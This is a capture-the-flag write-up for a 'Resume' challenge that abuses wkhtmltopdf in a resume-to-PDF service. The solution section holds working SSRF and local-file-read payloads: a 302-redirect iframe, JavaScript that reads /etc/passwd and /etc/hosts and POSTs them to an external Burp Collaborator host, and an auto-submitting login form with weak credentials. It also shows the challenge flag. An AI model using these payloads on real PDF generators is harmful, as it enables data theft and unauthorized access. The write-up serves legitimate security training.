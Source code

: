 # Resume

### Challenge Details

This challenge is testing on SSRF(I personally think it is much more than a SSRF, just imagine a scenario where a browser reside in the internal network is executing arbitrary HTML/JS file you feed it). 

A resume generator website, user can enter their personal details, backend will generate a HTML resume template and call `wkhtmltopdf` to generate the PDF file from that HTML resume. 

In the older version of wkhtmltopdf(prior of the latest 12.6, refer to [wkhtmltopdf/wkhtmltopdf#4536](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536) ), it is vulnerable to local file disclosure. 

I am hosting another website locally, its domain will be resolved via /etc/hosts. This website requires login, but weak credentials are being used. Player needs to craft an auto-submitting form to login to the website to get the flag.

### Setup Instruction

```
docker-compose up -d
# optional
add a cronjob to delete the generated pdf every 5 minutes.
```

### Possible hints

> Have you checked what is being used to generate pdf?

> Have you checked commons files on the Linux file system?

> sometimes a single point of failure might just arise from a weak credential.

### Key concept

- 302 redirect usage in SSRF
- XSS techniques to read content.

- XSS techniques to automate form submission

### Solution

##### Read file

This will not work:

```html
<iframe src="file:///etc/passwd"></iframe>
```

But this will work:

```html
<iframe src="https://yourownwebsite/ssrf.php?a=file:///etc/passwd"></iframe>
```

when visiting `https://yourownwebsite/ssrf.php?a=file:///etc/passwd`, you will get a 302 response redirecting to `file:///etc/passwd`, and the contents of `/etc/passwd` will be inside the generated PDF.

------

Another way is to use XMLHTTPRequest, this would work probably because SOP is guaranteed in the process of generating the PDF, hence the content can be retrieved.

```html
<script>
    x = new XMLHttpRequest;
    x.onload = function(){
    y = new XMLHttpRequest;
    y.open('POST', "http://0vwlcrnm27hbj5zyz8kugdcshjn9by.burpcollaborator.net/", true);
    y.setRequestHeader("Content-Type","text/plain");
    y.send(this.responseText);
    };
    x.open("GET","file:///etc/passwd");
    x.send();
</script>
```

#####  Found a local website

```javascript
<script>
    x = new XMLHttpRequest;
    x.onload = function(){
    y = new XMLHttpRequest;
    y.open('POST', "http://0vwlcrnm27hbj5zyz8kugdcshjn9by.burpcollaborator.net/", true);
    y.setRequestHeader("Content-Type","text/plain");
    y.send(this.responseText);
    };
    x.open("GET","file:///etc/hosts");
    x.send();
</script>
```

```
127.0.0.1 topsecret.local
```

##### Read the contents of `topsecret.local`

Directly curling with modified Host header to the server would not work because the website is serving at 127.0.0.1, refer to the following configuration:

```
<VirtualHost 127.0.0.1:80>
```

Need to let wkthmltopdf to request for us

```
<iframe src="http://topsecret.local" width=600 height=600> </iframe>
```

The website content can be viewed in the generated pdf.

And it's just a simple login form.(with weak credentials being used.)

##### Find the parameters

Need to read `/etc/apache2/apache2.conf` to find another virtual host configuration file at `/etc/apache2/sites-enabled/topsecret.local.conf`, then read it to find the document path at `/var/www/70p53CR37/`, then read `/var/www/70p53CR37/index.html` to find the correct parameters to be used in the login request:

```html
           <div class="form-group">
                <label>Username</label>
                <input type="text" name="username_VmyK7y39pX99A">
            </div>
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password_6FB8YUthKI3dK">
            </div>
```

##### Get the flag

with weak credentials being used. Craft a auto-submitting form will give you the flag

```html
<form id='asdf' action="http://topsecret.local/login.php" method="POST">
<input name='username_VmyK7y39pX99A' value='admin'>
<input name='password_6FB8YUthKI3dK' value='admin'>
<form>
<script>
document.getElementById('asdf').submit();
</script>
```

### Learning objective

the same as key concepts?

### Flag

```
greyhats{7h12_12_MOr3_7HaN_AN_55rf}
```

